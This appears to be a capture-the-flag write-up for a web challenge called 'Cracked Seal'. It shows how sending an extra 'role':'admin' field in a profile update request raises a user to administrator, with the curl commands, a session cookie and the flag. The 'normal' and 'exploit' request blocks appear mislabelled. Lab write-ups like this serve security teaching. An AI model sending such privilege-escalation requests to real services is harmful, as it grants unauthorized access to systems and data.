



## **Challenge Overview**

**Name:** Cracked Seal
**Category:** Web  
**Difficulty:** Medium
**Points**: 200

###### Challenge Description

CTF7 UserHub is a modern user management platform with a clean REST API. Create an account, customize your profile with an email and bio, and explore the dashboard. The developers built a sleek profile editor that lets you update your personal information through the API.

Register, sign in, and see what the platform has to offer.

---

After registering and logging in, the user is presented with a profile editor containing:

- Username
- Email
- Bio

### **Key Observation**

The frontend allows updating profile data, and the request is sent to:

```
PUT /api/profile
```






A normal update request looks like:
```
curl -X PUT http://chall-184b518a.evt-246.glabs.ctf7.com/api/profile -H "Content-Type: application/json" -H "Cookie: session_token=eyJ1c2VybmFtZSI6ICJtb3JuaW5nc3RhciJ9" -d '{"email":"a@a.com","bio":"pwned","role":"admin"}'
{"message":"Profile updated"}
```


## **Exploit the Vulnerability**

We modify the request to include a privileged field:

```
 curl -H "Cookie: session_token=eyJ1c2VybmFtZSI6ICJtb3JuaW5nc3RhciJ9" \
http://chall-184b518a.evt-246.glabs.ctf7.com/api/profile
{"bio":"pwned","email":"a@a.com","role":"admin","username":"morningstar"}
```


Role changes from `USER` → `ADMIN`

**Flag**
```
ctf7{guess_the_music_f0ca80b4}
```

---

